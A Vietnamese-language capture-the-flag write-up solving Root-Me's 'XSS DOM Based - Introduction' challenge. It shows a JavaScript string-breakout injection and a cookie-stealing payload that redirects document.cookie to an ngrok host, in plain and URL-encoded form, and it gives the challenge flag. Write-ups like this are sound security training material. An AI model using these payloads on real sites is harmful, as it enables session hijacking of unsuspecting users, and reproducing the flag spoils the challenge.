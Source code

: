# XSS DOM Based - Introduction
## Solution
Đầu tiên challenge cho chúng ta một 1 cái form như thế này.

![image](https://user-images.githubusercontent.com/86184794/159858743-f113a948-b3b4-4a33-805f-cb6572f20120.png)

Thử nhập bất kỳ kí tự gì vào form xem sao.

![image](https://user-images.githubusercontent.com/86184794/159858918-e5086ada-42dd-4916-b9c8-6c5831e5eae3.png)


Khi nhập chuỗi kí tự 'binh' thì trên url xuất hiện request vào tham số number=binh và trong deptool cũng xuất hiện một cái biến number lưu giá trị 'binh'.

Như vậy ý tưởng xử lý challenge này là em sẽ đi nhập một đoạn chuỗi javascript vào để chương trình thực thi.
Ví dụ number='binh' thì chuỗi 'binh' em sẽ thay là '; alert("1"); var taolao='

Với việc thay đổi như này thì kết quả là number = ''; alert("1"); var taolao='' như vậy thì câu lệnh alert("1") sẽ được thực thi.

Như vậy bây giờ chúng ta sẽ đưa code vào để lừa lấy cookie của server xong gửi cookie này vể server ảo của dưới sự kiểm soát của chúng ta.

Tạo server lắng nghe ở port 11111

![image](https://user-images.githubusercontent.com/86184794/159861535-a4457eb9-4d16-4414-a93a-a081b5842133.png)

Sau đó public server ra internet với ngrok.


![image](https://user-images.githubusercontent.com/86184794/159861649-2bbf2a44-480a-4fe5-934f-1256b394fb33.png)


Sau đó đưa vào payload là '; document.location="http://39ed-113-161-66-224.ngrok.io?cookie=" + document.cookie; var taolao=' ô input

![image](https://user-images.githubusercontent.com/86184794/159871769-c8735f22-a9b2-430b-a9d1-03083e1cfaf6.png)


Nhưng khi gửi payload vào khá lâu nhưng không có cookie nào trả lại nên em thử sang tag contact của challenge để thử xem. Nhưng bên tag này thì yêu cầu gửi đường link url nên em sẽ convert đoạn code này sang dạng url rồi thêm đường link gốc vào để được url hoàn chỉnh.

```
%27%3B%20document.location%3D%22http%3A%2F%2F39ed-113-161-66-224.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie%3B%20var%20taolao%3D%27
```

Link hoàn chỉnh để attack server như sau

```
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27%3B%20document.location%3D%22http%3A%2F%2Ff5be-123-21-33-242.ngrok.io%3Fcookie%3D%22%20%2B%20document.cookie%3B%20var%20taolao%3D%27
```


Khi submit đường link này thì ta được kết quả

![image](https://user-images.githubusercontent.com/86184794/159872849-55a5fdca-47b0-41d5-9f56-6a5587425c3e.png)

Flag: rootme{XSS_D0M_BaSed_InTr0}
